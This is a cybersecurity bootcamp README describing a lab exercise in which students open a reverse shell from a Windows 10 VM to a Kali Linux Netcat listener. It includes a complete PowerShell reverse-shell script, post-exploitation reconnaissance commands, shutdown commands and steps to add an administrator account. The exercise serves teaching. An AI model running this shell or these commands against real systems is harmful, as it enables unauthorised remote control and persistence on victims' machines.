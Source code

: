 # Windows CMD Commands for Remote Hacking
<!-- hide -->

> By [@rosinni](https://github.com/rosinni) and [other contributors](https://github.com/breatheco-de/buffer-overflow-exploit-project/graphs/contributors) at [4Geeks Academy](https://4geeksacademy.co/)

[![build by developers](https://img.shields.io/badge/build_by-Developers-blue)](https://4geeks.com)
[![Twitter Follow](https://img.shields.io/twitter/follow/4geeksacademy?style=social&logo=twitter)](https://twitter.com/4geeksacademy)

*These instructions are also [available in Spanish](https://github.com/breatheco-de/buffer-overflow-exploit-project/blob/main/README.es.md)*
<!-- endhide -->

### Before you start...

> We need you! These exercises are created and maintained in collaboration with people like you. If you find any errors or typos, please contribute and/or report them.

## 🌱 How to Start This Project

This exercise aims to utilize Windows CMD commands in the context of a remote connection, simulating a remote hacking attack. This tutorial will help you establish a reverse shell from a Windows 10 machine to a Kali Linux machine, executing a series of commands to gather critical information from the Windows system. All of this will be done in a controlled environment, using virtual machines, and will focus on the post-exploitation phase of an ethical attack.


### Requirements

- **Attacker Machine (Kali Linux)**:
  - Required Software: `Netcat` (pre-installed on Kali Linux)
  
- **Target Machine (Windows 10)**:
  - Access to **PowerShell** and permission to run scripts

> Both virtual machines must be configured with the bridged adapter option so they can communicate over the local network.

## 📝 Instructions

1. Network Configuration: Verify that both machines can communicate using the ping command from Kali to Windows and vice versa.

2. Establish the connection with Netcat on the Kali Linux machine (Attacker). Open a terminal and listen on a specific port (in this case, port 4444) using Netcat:

```bash
nc -lvnp 4444
```

This will set up a listener on the Kali machine, waiting for a connection from Windows.

3. Open PowerShell on the Windows 10 machine (Target) and execute the following script to establish the reverse shell:

```powershell
     $client = New-Object System.Net.Sockets.TCPClient("IP-de-Kali", 4444);
     $stream = $client.GetStream();
     $reader = New-Object System.IO.StreamReader($stream);
     $writer = New-Object System.IO.StreamWriter($stream);
     $writer.AutoFlush = $true;

     while ($true) {
         $data = $reader.ReadLine();
         
         
         if ($data -eq "exit") { break }

         try {
             $result = Invoke-Expression $data 2>&1 | Out-String;
             $writer.WriteLine($result);
         } catch {
             $writer.WriteLine("Error: $_");
         }

         $writer.Flush();
     }
```

**Note**: Remember to replace "IP-of-Kali" with the IP address of your Kali Linux machine.

![imagen](assets/powershell.png)


With the script running on Windows, you can now send commands from Kali through the Netcat session you initiated. Here are some useful commands to interact with the Windows machine:

![imagen 1](assets/listening_dir.png)

### Basic Windows Commands:

- **List files in the current directory**:

```bash
dir
```
- **Get system information**:
```bash
systeminfo
```

![imagen 2](assets/systeminfo.png)

- **Get network configuration:**:
```bash
ipconfig
```
![imagen 3](assets/ipconfig.png)

- **List running processes**:
```bash
tasklist
```
### Commands for Detailed Information:

![imagen 4](assets/hostname.png)

- **View system information**:
    ```bash
    hostname
    ```
- **List users on the system**:
    ```bash
    net user
    ```
    
- **View active network connections:**:
    ```bash
    netstat -an
    ```

### Commands for Navigating the File System:

- **Change directory:**:
    ```bash
    tasklist
    ```
- **Create a file or directory:**:
    ```bash
    mkdir C:\TestFolder
    ```
### Administrative Commands (if you have privileges):

- **Shut down or restart the system:**:
    ```bash
    shutdown /s /t 0   # Apagar
    shutdown /r /t 0   # Reiniciar
    ```
- **Add an administrator user:**:
    ```bash
    net user nuevo_usuario contraseña /add
    net localgroup Administradores nuevo_usuario /add
    ```
    > Research more commands to practice..

### End the Session
- Esto hará que el bucle en PowerShell termine y cierre la conexión.
    ```bash
    exit
    ```
![imagen 5](assets/exit.png)

## Contributors

Thanks to these amazing people ([emoji key](https://github.com/kentcdodds/all-contributors#emoji-key)):

1. [Rosinni Rodriguez (rosinni)](https://github.com/rosinni) contribution: (build-tutorial) ✅, (documentation) 📖
  
2. [Alejandro Sanchez (alesanchezr)](https://github.com/alesanchezr), contribution: (bug reports) 🐛

This project follows the [all-contributors](https://github.com/kentcdodds/all-contributors) specification. Contributions of any kind are welcome!

This and other exercises are used to [learn to code](https://4geeksacademy.com/us/learn-to-code) by students at 4Geeks Academy [Coding Bootcamp](https://4geeksacademy.com/us/coding-bootcamp) led by [Alejandro Sánchez](https://twitter.com/alesanchezr) and many other contributors. Learn more about our [Programming Courses](https://4geeksacademy.com/us/programming-courses) to become a [Full Stack Developer](https://4geeksacademy.com/us/coding-bootcamps/full-stack-developer), or our [Data Science Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/data-science-machine-learning-bootcamp). You can also dive into cybersecurity with our [Cybersecurity Bootcamp](https://4geeksacademy.com/us/coding-bootcamps/cybersecurity-bootcamp).

<!-- endhide -->
